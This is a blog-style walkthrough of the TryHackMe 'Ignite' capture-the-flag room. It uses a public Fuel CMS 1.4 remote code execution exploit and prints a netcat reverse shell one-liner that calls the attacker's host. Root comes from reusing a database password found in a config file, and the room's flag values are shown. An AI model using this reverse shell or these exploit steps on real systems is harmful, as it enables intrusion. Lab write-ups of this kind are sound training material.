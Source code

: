 ```yaml
---
title: "TryHackMe - Ignite"
date: 2025-05-13 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [Fuel CMS, reverse shell, privilege escalation, web exploitation ]
---
```


## Introduction

In this post, I'm sharing my step-by-step walkthrough of the [**TryHackMe - Ignite**](https://tryhackme.com/room/ignite) room. This CTF challenge involved exploiting a vulnerable web application, gaining a reverse shell, and escalating privileges to root. The target system runs **Fuel CMS**, which I used as the initial attack vector.


## Reconnaissance
I begin with a comprehensive **Nmap** scan to identify open ports and services:

```console
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -T4 -p- -A 10.10.91.169 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-23 09:07 EDT
Nmap scan report for 10.10.91.169
Host is up (0.066s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Aggressive OS guesses: Linux 4.15 (98%), Linux 4.4 (97%), Linux 3.2 - 4.14 (96%), Linux 4.15 - 5.19 (95%), Linux 3.10 - 3.13 (95%), Linux 2.6.32 - 3.10 (95%), Linux 3.10 - 4.11 (94%), Linux 3.8 - 3.16 (93%), Android 9 - 10 (Linux 4.9 - 4.14) (93%), Linux 3.13 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 111/tcp)
HOP RTT      ADDRESS
1   66.31 ms 10.23.0.1
2   66.30 ms 10.10.91.169

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.68 seconds
```

Nmap Results Summary:
- Port 80/tcp is open and running **Apache 2.4.18 (Ubuntu)**.

- The HTTP service reveals a Fuel CMS instance.

- robots.txt contains a disallowed path: /fuel/.


## Eploitation

Upon accessing the platform's URL, the **Fuel CMS** version is immediately noticeable.

![](/images/ignite/ignite-fuelcms.jpg)


I searched for publicly available exploits for Fuel CMS version 1.4 and found one on [Exploit-DB](https://www.exploit-db.com/exploits/50477). I used it like this: 


```console

┌──(kali㉿kali)-[~/Desktop/fuel cms]
└─$ python3 script.py -u http://10.10.91.169                 
[+]Connecting...
Enter Command $ls
systemREADME.md
assets
composer.json
contributing.md
fuel
index.php
robots.txt


Enter Command $cat robots.txt
systemUser-agent: *
Disallow: /fuel/

Enter Command $

```

After confirming that the exploit worked, I used a reverse shell generator to create a payload and executed it via the exploit shell:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.23.x.x 4444 >/tmp/f
```

Once I received a reverse shell connection on my listener, I upgraded it for a more stable interactive session:

```console

python -c 'import pty;pty.spawn("/bin/bash")'

```


With that, I accessed the first user flag located in the `www-data` home directory:

```console
www-data@ubuntu:/home/www-data$ cat flag.txt
cat flag.txt
6470e394cbf6dab6a91682cc8585059b 
www-data@ubuntu:/home/www-data$ 
```


## Privilege Escalation to Root

After gaining initial access to the system, I began reviewing the configuration files of the FuelPHP application located at:
`/var/www/html/fuel/application/config`

Among these files, I discovered one named `database.php`, which contains the application's database connection settings. Upon inspecting its contents, I found the following configuration:

```
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);
```

The credentials provided here revealed that the MySQL root password is set to `mememe`. I decided to test whether this password also grants access to the root account on the system itself.

Using `su`, I attempted to switch to the root user:


```console
www-data@ubuntu:/var/www/html/fuel/application/config$ su root
su root
Password: mememe

root@ubuntu:/var/www/html/fuel/application/config# cd /root
cd /root
root@ubuntu:~# ls
ls
root.txt
root@ubuntu:~# cat root.txt
cat root.txt
b9bbcb33e11b80be759c4e844862482d 
root@ubuntu:~# 

```

The password successfully authenticated the root account, granting me full administrative privileges. I then navigated to the `/root` directory and retrieved the final flag.


